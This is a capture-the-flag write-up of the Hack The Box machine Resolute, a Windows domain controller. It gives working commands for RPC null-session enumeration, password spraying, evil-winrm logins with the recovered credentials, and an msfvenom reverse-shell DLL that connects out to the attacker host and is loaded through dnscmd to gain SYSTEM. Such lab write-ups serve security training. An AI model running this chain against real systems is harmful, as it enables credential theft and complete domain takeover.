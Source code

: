 # Resolute

This is the write-up for the box Resolute that got retired at the 30th May 2020.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.169    resolute.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/resolute.nmap 10.10.10.169
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-03-22 17:10:25Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This box seems to be an **Active Directory domain controller** and the hostname _megabank.local_ should be put into the _/etc/hosts_ file.

## Checking RPC (Port 135)

Checking if RPC is configured to accept **null authentication**:
```
rpcclient -U '' 10.10.10.169
```

Without entering a password, authentication to the RPC client works and can be used to enumerate valuable information.

List all users and create a wordlist with them:
```
rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
(...22 more users...)
```

Enumerating the attributes of the users:
```
rpcclient $> querydispinfo

(...)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
(...)
```

The user _marko_ has a password in the description attribute, so lets test if it works:
```
crackmapexec smb 10.10.10.169 -u marko -p 'Welcome123!'
```

It does not authenticate but as this looks like a default password that is given to new users, it can be tried out on every user with a **Password Spraying attack**:
```
crackmapexec smb 10.10.10.169 -u users.list -p 'Welcome123!'
```

There was one successful hit and the password works on the user _melanie_.

Testing if this user has permission to use **Windows Remoting**:
```
crackmapexec winrm 10.10.10.169 -u melanie -p 'Welcome123!'
```

The user _melanie_ has permission to start a **WinRM** connection:
```
evil-winrm -u melanie -p 'Welcome123!' -i 10.10.10.169
```

This starts a shell session on the box as _melanie_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
curl 10.10.14.15:8000/winPEAS.exe -o winPEAS.exe

.\winPEAS.exe
```

In the domain there is a non-default group _Contractors_ that is a member of the _DNS Administrators Group_.
Enumerating who is a member of that group with **rpcclient**:
```
rpcclient $> enumdomgroups

(...)
group:[Contractors] rid:[0x44f]
```
```
rpcclient $> querygroupmem 0x44f

rid:[0x451] attr:[0x7]
```
```
rpcclient $> queryuser 0x451

User Name   :   ryan
Full Name   :   Ryan Bertrand
(...)
```

The user _ryan_ is a member of these groups and thus is a high value target.

There is an interesting hidden directory and hidden file in _C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt_ that can only be seen with the `dir -hidden` parameter.
This file is a PowerShell logging transcript that logs all commands that were ran and the following information in there is useful:
```
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
(...)
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
(...)
```

The logging transcript was created by the user _ryan_ and this user mounted a file share by using credentials directly in the command line.
Lets start a **WinRM** connection with _ryan_:
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```

### Privilege Escalation to Administrator

As we found out, the user _ryan_ is a member of _DNS Administrators Group_.
Members of this group have the ability to load **DLL files** from network paths to execute arbitrary code as explained in [several articles](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2).

Creating a malicious DLL with **Msfvenom**:
```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=9001 -f dll > shell.dll
```

Hosting the file on a SMB server:
```
impacket-smbserver testshare $(pwd)
```

Using `dnscmd` to inject the DLL file into the DNS process:
```
dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.15\testshare\shell.dll
```

Restarting the DNS process:
```
sc.exe stop dns

sc.exe start dns
```

After restarting the process, the DLL gets executed and the listener on my IP and port 9001 starts a reverse shell as _NT Authority\SYSTEM_!
